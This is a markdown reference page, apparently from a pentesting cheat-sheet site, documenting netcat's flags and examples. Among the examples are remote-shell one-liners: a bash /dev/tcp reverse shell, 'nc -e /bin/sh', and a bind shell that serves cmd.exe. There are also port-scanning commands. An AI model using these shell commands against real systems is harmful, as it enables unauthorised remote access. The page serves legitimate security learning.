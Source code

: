 ```yaml
---
title: "nc"
# pre : '<i class="fas fa-code"></i> '
description: "Netcat, arbitrary TCP and UDP connections and listens."
date: 2020-04-09T13:47:11+02:00
# hidden : true
# draft : true
weight: 0
# tags : ['']
---
```


## Netcat

Netcat, arbitrary TCP and UDP connections and listens.

### Binary for Windows

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

* SHA256 'nc.exe' - `be4211fe5c1a19ff393a2bcfa21dad8d0a687663263a63789552bda446d9421b`

### Usage

```plain
nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
```

### Flags

```plain
      [-m minttl] [-O length] [-P proxy_username] [-p source_port]
      [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
      [-X proxy_protocol] [-x proxy_address[:port]]       [destination] [port]
    Command Summary:
        -4      Use IPv4
        -6      Use IPv6
        -b      Allow broadcast
        -C      Send CRLF as line-ending
        -D      Enable the debug socket option
        -d      Detach from stdin
        -F      Pass socket fd
        -h      This help text
        -I length   TCP receive buffer length
        -i interval Delay interval for lines sent, ports scanned
        -k      Keep inbound sockets open for multiple connects
        -l      Listen mode, for inbound connects
        -M ttl      Outgoing TTL / Hop Limit
        -m minttl   Minimum incoming TTL / Hop Limit
        -N      Shutdown the network socket after EOF on stdin
        -n      Suppress name/port resolutions
        -O length   TCP send buffer length
        -P proxyuser    Username for proxy authentication
        -p port     Specify local port for remote connects
        -q secs     quit after EOF on stdin and delay of secs
        -r      Randomize remote ports
        -S      Enable the TCP MD5 signature option
        -s source   Local source address
        -T keyword  TOS value
        -t      Answer TELNET negotiation
        -U      Use UNIX domain socket
        -u      UDP mode
        -V rtable   Specify alternate routing table
        -v      Verbose
        -W recvlimit    Terminate after receiving a number of packets
        -w timeout  Timeout for connects and final net reads
        -X proto    Proxy protocol: "4", "5" (SOCKS) or "connect"
        -x addr[:port]  Specify proxy address and port
        -Z      DCCP mode
        -z      Zero-I/O mode [used for scanning]
    Port numbers can be individual or ranges: lo-hi [inclusive]
```

### Examples

#### Create a Netcat listener

This listener will listen on specific IP and port. IP can be removed if any interface is needed.

```plain
nc -lvp 10.10.10.2 80
```

#### Transferring files

Receiver

```plain
nc -nlvp 10.10.10.2 4444 > incomming.exe
```

Sender

```plain
nc -nv 10.10.10.2 4444 < /Downloads/wget.exe
```

### Reverse Shell

**Receiver:**

```plain
nc -nlvp 10.10.10.2 4444
```

**Identity connecting and sending the reverse shell:**

```plain
bash -i >& /dev/tcp/10.10.10.2/4444 0>&1
```

**OR identity connecting and sending the reverse shell:**

```plain
nc 10.10.10.2 4444 -e /bin/sh
```

### Bind Shell

**Receiver:**

```plain
nc -nlvp 4444 -e cmd.exe
```

**Identity connecting to bind shell::**

```plain
nc -nv <ip> 4444
```

### Port Scanning (TCP)

**Note:** NetCat port scanning is based on the three-way handshake.

```plain
nc -nvv -w 1 -z 10.10.10.20 3380-3390
```

### Port Scanning (UDP)

```plain
nc -nv -u -z -w 1 10.10.10.20 160-162
```

### URL list

* [Linux.die.net](https://linux.die.net/man/1/nc)
